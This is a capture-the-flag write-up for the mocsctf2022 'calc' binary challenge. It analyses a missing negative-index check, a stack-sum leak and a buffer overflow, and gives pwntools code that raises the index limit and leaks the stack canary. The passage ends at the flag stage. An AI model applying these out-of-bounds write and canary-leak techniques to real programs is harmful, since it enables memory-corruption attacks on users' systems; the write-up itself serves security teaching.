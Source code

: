 # mocsctf2022.mocsctf.com - calc

Origin challenge link: https://mocsctf2022.mocsctf.com/challenges

You can also download challenge in my repo: [calc.zip](calc.zip)

There is 1 file in zip:

- calc

Download the file and let's start!

# 1. Find bug

First, we use `file` to check for basic information:

```
$ file calc

calc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ea3703cc9b093c54402a5461acb0d88249d219f0, for GNU/Linux 3.2.0, not stripped
```

Wonderful! This is a 64-bit file without being stripped. This will be helpful when we debug our program. Next, we will use `checksec` to check all the security of file:

```
$ checksec calc
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

When can see that there is canary on stack and no PIE. That's all we can get for checksec. Finally, we will use ghidra to decompile the challenge file to get the flow.

Looking at all the functions, we can see that there is an interesting function named `calc_root`:

![calc_root.png](images/calc_root.png)

It will read and print out the flag for us. Very interesting! And another essential function is main().

The first thing in main() we can see is that with the first option `Set Numbers`, it get the position **without checking if it's a negative number or not** and compare with `local_d8` which containing `20`:

![main_local_d8.png](images/main_local_d8.png)

![main_input_pos.png](images/main_input_pos.png)

Then it take this pos variable, add `local_c8` and scanf():

![main_input_number.png](images/main_input_number.png)

In GDB with index 0 and 1, it will be like this:

![set_number_in_GDB.png](images/set_number_in_GDB.png)

But we can set number within (-oo ; 20] so that's the first bug.

The next option is `Calculate`, it get our input, then sum all data on stack from index 0 to our input and print out the final value:

![Calculate.png](images/Calculate.png)

So with index 1, it will work like this:

![calculate_result.png](images/calculate_result.png)

That's the data on stack:

![calculate_result_in_GDB.png](images/calculate_result_in_GDB.png)

Nothing we can get but just know how to leak stack data. 

And the last option is `Finish`, which is defined with just 24 char space:

![finish_var.png](images/finish_var.png)

But we can input upto 0x100 byte:

![finish_input.png](images/finish_input.png)

So that means **Buffer Overflow** and we have a `ret` right after our input. But there is canary on stack and how can we deal with it? We will try to leak it as the next part describes.

That's all we found. Let's move on next part: Brainstorming!

# 2. Brainstorming

We know that with the first option, we can change all the data, on stack, we want. Luckily, we can see that `local_c8`, which we `input the number` of option 1, is after `local_d8`, which contain 20 (0x14) to check if our index is larger than 20 or not

![order_of_var.png](images/order_of_var.png)

So we will change `local_d8` from 20 to a larger number so that when we get value on stack, we can get more than 20 index. Hence, we leak the canary value. And with **buffer overflow** in the `Finish` option, we control the rip to make it print out the flag.

- Summary:
  1. Leak stack canary
  2. Get flag

# 3. Exploit

Before we start our exploitation, I write those function to make our exploitation easier

<details>
<summary>Code snippet</summary>
<p>

```
def setnumber(pos, number):
	p.sendlineafter(b'choice:', b'1')
	p.sendlineafter(b'Please input the pos:', '{}'.format(pos).encode())
	p.sendlineafter(b'Please input the number:', '{}'.format(number).encode())

def calculate(many):
	p.sendlineafter(b'choice:', b'2')
	p.sendlineafter(b'How many?\n', '{}'.format(many).encode())
	# Result receive outside

def finish(data):
	p.sendlineafter(b'choice:', b'3')
	p.sendafter(b'What\'s your name?', data)
```

</p>
</details>

And now, we start!

### Stage 1: Leak stack canary

First, we will change the maximum of index from 20 to 0x100 with the `Set Number` option. Having a look in GDB, we know that the index which point to max index variable is `-2`:

![max_index_in_GDB.png](images/max_index_in_GDB.png)

So we change that with the following code:

```
setnumber(-2, 0x100)
```

Now the maximum index is 0x100, that's enough for us to exploit. Then, leaking canary will be the easy part, not easiest, because we know that `Calculate` will sum all the data on stack from index 0 to index of our input. For a faster leak, I will set all the data previous canary to 0x0 so when it `Calculate`, it just print our the stack canary.

So first, we set all the data before canary to 0x0 with the following code:

```
for i in range(23):
	setnumber(i, 0)
```

And now, we just leak the canary:

```
calculate(24)
data = int(p.recvline()[:-1].split(b':')[1])
print(data)
```

Running all of them should get us the canary:

![negative_canary.png](images/negative_canary.png)

Run several time and we get the negative canary value. Why is it negative? I thought the stack just like `0xffffffff`, there is no way it can be negative. The answer is it can be negative because:

![print_result.png](images/print_result.png)

The output format is `%lld`, which from `0` to `0x7fffffffffffffff` will be positive number, but from `0x8000000000000000` to `0xffffffffffffffff` will be negative number. So to deal with that leak, we will use [struct](https://docs.python.org/3/library/struct.html) (a module in python) to convert from that long int to hex:

```
canary = u64(struct.pack('<q', data))

# Just for printing the leak canary
log.success('Leak canary: ' + hex(canary))
```

Running the script several time and we get the negative leaked canary in hex:

![canary_leaked.png](images/canary_leaked.png)

Compared with canary in GDB:

![canary_leaked_in_GDB.png](images/canary_leaked_in_GDB.png)

And that's correct! We got the stack canary leaked! Let's move on final stage: Get flag!

### Stage 2: Get flag

# 4. Get flag